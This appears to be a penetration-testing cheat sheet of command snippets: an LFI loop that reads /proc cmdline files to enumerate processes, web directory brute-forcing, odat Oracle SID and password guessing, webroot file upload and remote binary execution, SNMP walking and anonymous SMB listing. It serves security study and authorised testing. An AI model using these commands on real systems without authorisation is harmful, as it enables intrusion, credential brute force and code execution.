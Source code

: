 ### External Process enumeration with LFI
```bash
#to find out which process id is running on the targert port
# 1337 in this case
i=0; MYVAR=""; while [[ $MYVAR != *"1337"* ]]; do MYVAR=$(curl -s http://PATH/TO/LFI?PARA=/proc/$i/cmdline); echo $i; ((i=i+1)); done; 
```

### web enum
```bash
# Web dir enum
gobuster dir -u URL -w WORDLIST -t THREADS -x EXTENSION(S) -o OUTPUT_FILE
feroxbuster -u URL -t THREADS -w WORDLIST -x EXTENSION(S) -v -k -n -q -e -r -o OUTPUT_FILE
# Web server version quick enum
curl -I URL
```

### odat
```bash
# execute the odat with sidguesser
odat sidguesser -s IP -p 1521#default port
# wordlist for creds bf
cp /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt .
# replace the space in each entry by `:%s/ /\\//g`
odat passworguesser -s IP -d SID 
# The following commands need the user profile to be db admin
# File upload
odat dbmsxslprocessor -s IP -d SID -U USER -P PASS --sysdba --putFile "C:\\inetpub\\wwwroot\\" "output_name" input_file
# There are several command for executing binary via odat, this is just one of them
odat external table -s IP -d SID -U USER -P PASS --sysdba -exec /temp LOCAL_EXPLOIT_BINARY
```

### snmpwalk and snmpbulkwalk
```bash
# Check if any snmp extended object for code execution
snmpwalk -v X -c public ${IP} NET-SNMP-EXTEND-MIB::nsExtendOutputFull
# For the bulkwalk, may look for SWRun. 
snmpbulkwalk -Cr1000 -c public  -v 2c ${IP} . > snmpbulkwalk
```
> The SWRunName stands for the software binary name. And SWRunPath stands for where the binary from. The SWRunParameters shows the parameters passed into the binary, which potentially got some info exposed to us that we may abuse.

### SMB client
```bash
smbclient \\\\IP\\ -L -N
# If somehow the above command does not work (showing access denied)
smbclient \\\\IP\\ -L -N -I IP
# use the similar command option to login to the share
smbclient \\\\IP\\SHARE -N -I IP
```
